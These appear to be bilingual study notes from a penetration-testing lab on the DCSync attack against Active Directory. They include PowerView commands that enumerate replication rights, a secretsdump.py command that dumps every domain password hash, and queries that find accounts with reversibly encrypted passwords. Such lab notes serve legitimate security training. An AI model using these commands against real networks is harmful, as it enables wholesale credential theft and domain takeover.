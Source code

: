 DCSync is a technique for stealing the Active Directory password database by using the built-in Directory Replication Service Remote Protocol, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.

Based on our work in the previous section, we now have control over the user adunn who has DCSync privileges in the INLANEFREIGHT.LOCAL domain. Let's dig deeper into this attack and go through examples of leveraging it for full domain compromise from both a Linux and a Windows attack host.



### Atacando desde Linux

Primero sacamos los datos necesarios

```
Get-DomainUser -Identity adunn  |select samaccountname,objectsid,memberof,useraccountcontrol |fl
#Con este comando sacamos el SID
#Despues sacamos los ACLs de ese usuario

$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

```

Atacando con Linux

```
 secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5

# Nos genera este output


inlanefreight_hashes.ntds  inlanefreight_hashes.ntds.cleartext  inlanefreight_hashes.ntds.kerberos

```

Existen muchas posibles configuraciones para este comando dependiendo de lo que queramos sacar. 

### Viewing an Account with Reversible Encryption Password Storage Set

When this option is set on a user account, it does not mean that the passwords are stored in cleartext. Instead, they are stored using RC4 encryption. The trick here is that the key needed to decrypt them is stored in the registry (the Syskey) and can be extracted by a Domain Admin or equivalent. Tools such as secretsdump.py will decrypt any passwords stored using reversible encryption while dumping the NTDS file either as a Domain Admin or using an attack such as DCSync.

Para enumerar usuarios con este tipo de cifrado

```
 Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
# Con powerview

Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```
Se puede hacer con mimikatz
